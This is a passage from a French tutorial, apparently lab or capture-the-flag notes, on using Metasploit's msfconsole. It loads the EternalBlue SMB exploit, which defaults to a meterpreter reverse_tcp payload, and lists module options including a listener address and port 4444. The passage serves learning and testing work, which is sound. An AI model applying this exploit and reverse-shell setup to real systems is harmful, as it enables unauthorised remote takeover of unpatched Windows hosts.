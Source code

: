 Pour sélectionner un exploit, on utilise la commande `use` :

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

> Notez que Metasploit sélectionne automatiquement un payload par défaut lorsqu'on charge un exploit.
{: .prompt-info }

**Exécution de commandes système**

Il est possible d'exécuter des commandes système directement depuis msfconsole :

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > ls
[*] exec: ls

burp.json   Desktop    Instructions  Postman  Scripts  thinclient_drives
CTFBuilder  Downloads  Pictures      Rooms    snap     Tools
```

**Visualiser les options d'un module**

La commande `show options` affiche tous les paramètres configurables d'un exploit :

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/
                                             docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.161.244    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.
```
